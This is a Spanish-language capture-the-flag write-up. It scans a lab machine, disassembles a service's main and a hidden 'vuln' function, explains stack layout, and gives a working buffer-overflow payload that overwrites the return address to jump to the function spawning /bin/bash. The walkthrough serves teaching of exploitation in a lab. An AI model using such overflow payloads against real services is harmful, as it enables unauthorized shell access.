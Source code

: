 

# SCAN

```
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
5700/tcp  open  supportassist
52383/tcp open  unknown
```
En el puerto 5700 esta activo un servicio llamado **supportassist**. Cuando conectamos con este servicio nos sale el siguiente banner:
```
┌──(kali㉿kali)-[~/reverse/QAPWN]
└─$ telnet 10.10.108.59 5700
Trying 10.10.108.59...
Connected to 10.10.108.59.
Escape character is '^]'.
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: jose
jose

Hello: jose
Connection closed by foreign host.
```
# REVERSE ENGENEERING

Existen dos funciones que nos interesan:

1. main



```
   0x00000000004006c3 <+0>:     push   rbp
   0x00000000004006c4 <+1>:     mov    rbp,rsp
   0x00000000004006c7 <+4>:     sub    rsp,0x20
   0x00000000004006cb <+8>:     mov    edi,0x400803
   0x00000000004006d0 <+13>:    call   0x400520 <puts@plt>
   0x00000000004006d5 <+18>:    mov    edi,0x400818
   0x00000000004006da <+23>:    call   0x400520 <puts@plt>
   0x00000000004006df <+28>:    mov    edi,0x40083e
   0x00000000004006e4 <+33>:    mov    eax,0x0
   0x00000000004006e9 <+38>:    call   0x400530 <printf@plt>
   0x00000000004006ee <+43>:    mov    rax,QWORD PTR [rip+0x20051b]        # 0x600c10 <stdout@@GLIBC_2.2.5>
   0x00000000004006f5 <+50>:    mov    rdi,rax
   0x00000000004006f8 <+53>:    call   0x400570 <fflush@plt>
   0x00000000004006fd <+58>:    lea    rax,[rbp-0x20]
   0x0000000000400701 <+62>:    mov    rsi,rax
   0x0000000000400704 <+65>:    mov    edi,0x400851
   0x0000000000400709 <+70>:    mov    eax,0x0
   0x000000000040070e <+75>:    call   0x400580 <__isoc99_scanf@plt>
   0x0000000000400713 <+80>:    lea    rax,[rbp-0x20]
   0x0000000000400717 <+84>:    mov    rsi,rax
   0x000000000040071a <+87>:    mov    edi,0x400854
   0x000000000040071f <+92>:    mov    eax,0x0
   0x0000000000400724 <+97>:    call   0x400530 <printf@plt>
   0x0000000000400729 <+102>:   mov    eax,0x0
   0x000000000040072e <+107>:   leave  
   0x000000000040072f <+108>:   ret    
```
Esta funcion realmente no hace nada. Es un banner donde se nos solicita el nombre y con el nombre que introducimos nos manda un saludo
2. vuln

```
0x0000000000400686 <+0>:     push   rbp
   0x0000000000400687 <+1>:     mov    rbp,rsp
   0x000000000040068a <+4>:     mov    edi,0x4007b8
   0x000000000040068f <+9>:     call   0x400520 <puts@plt>
   0x0000000000400694 <+14>:    mov    edi,0x4007d0
   0x0000000000400699 <+19>:    call   0x400520 <puts@plt>
   0x000000000040069e <+24>:    mov    rax,QWORD PTR [rip+0x20056b]        # 0x600c10 <stdout@@GLIBC_2.2.5>
   0x00000000004006a5 <+31>:    mov    rdi,rax
   0x00000000004006a8 <+34>:    call   0x400570 <fflush@plt>
   0x00000000004006ad <+39>:    mov    edx,0x0
   0x00000000004006b2 <+44>:    mov    esi,0x0
   0x00000000004006b7 <+49>:    mov    edi,0x4007f9
   0x00000000004006bc <+54>:    call   0x400550 <execve@plt>
   0x00000000004006c1 <+59>:    pop    rbp
   0x00000000004006c2 <+60>:    ret    
```
Esta funcion es la mas importante porque cuando se entra en ella se hace ejecuta un shell (/bin/bash):
>  0x00000000004006bc <+54>:    call   0x400550 <execve@plt>

El problema es que la funcion vuln parece estar totalmente desconectada de la funcion main, ya que en ningun momento en la funcion main se hace una llamada a la funcion vuln. ¿Como resolvemos esto?
La respuesta esta en crear un **buffer overflow** y aprovecharnos de como se organiza la pila (stack) para redirigir la salida de la funcion main a la funcion vuln, de forma que al terminar la funcion main se ejecute la funcion vuln

# ORGANIZACION DE LA PILA

Stack se organiza de la siguiente manera:

```
variables locales
rbp (registro base pointer o frame pointer)
rip (Se guarda la direccion de retorno para cuando acabe de ejecutarse la funcion)
argumentos (los argumentos de llamada de la funcion -en este caso no tiene-)

```

En este caso podemos provocar un buffer overflow de forma que la direccion de la pila donde se guarda la direccion de retorno se reescriba con
la dirección de entrada en la funcion vuln que es:

>0x0000000000400686

El payload debe ser algo como:
> $(python3 -c 'print ("A" * 32 + "B" *  8 + "\x86\x06\x40\x00\x00\x00\x00\x00")')




